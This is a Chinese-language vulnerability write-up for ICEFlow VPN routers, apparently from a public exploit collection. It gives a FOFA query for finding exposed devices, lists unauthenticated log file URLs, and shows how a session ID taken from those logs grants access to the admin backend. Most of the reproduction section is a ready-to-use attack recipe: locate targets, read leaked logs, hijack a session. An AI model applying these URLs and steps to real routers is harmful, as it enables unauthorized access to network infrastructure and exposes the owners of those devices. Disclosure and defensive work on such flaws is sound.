 # ICEFlow VPN 信息泄露漏洞

## 漏洞描述

ICEFlow VPN 存在信息泄露漏洞，攻击者可以查看日志中的敏感数据来进一步攻击系统

## 漏洞影响

```
ICEFlow VPN
```

## FOFA

```
title="ICEFLOW VPN Router"
```

## 漏洞复现

可访问的日志 Url

```plain
系统日志    http://url/log/system.log
VPN日志    http://url/log/vpn.log
访问日志	http://url/log/access.log
告警日志	http://url/log/warn.log
错误日志	http://url/log/error.log
调试日志	http://url/log1/debug.log
移动用户日志 http://url/log/mobile.log
防火墙日志	http://url/log/firewall.log
```

![](./images/202202101850471.png)



根据日志信息获得session后，可利用实时登录系统管理后台：



```plain
http://xxx.xxx.xxx.xxx/cgi-bin/index?oid=10&session_id=xxxxxxxxxxxxxx&l=0
```

